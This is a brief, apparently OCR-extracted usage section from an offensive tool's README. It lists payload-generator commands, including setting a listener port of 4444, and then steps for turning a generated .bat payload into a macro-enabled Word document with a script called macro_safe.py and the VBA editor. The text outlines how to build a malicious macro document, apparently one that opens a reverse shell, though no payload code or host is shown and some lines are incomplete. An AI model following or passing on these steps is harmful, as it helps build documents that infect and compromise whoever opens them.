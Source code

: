 usage 
=======
- use 1
- use _payload 
- set lport 4444
- set
- generate 

inject to word
================
- ./macro_safe.py '/root/Desktop/word.bat' ~/Desktop/word.txt
- alt + f11
- save a file that allows macro
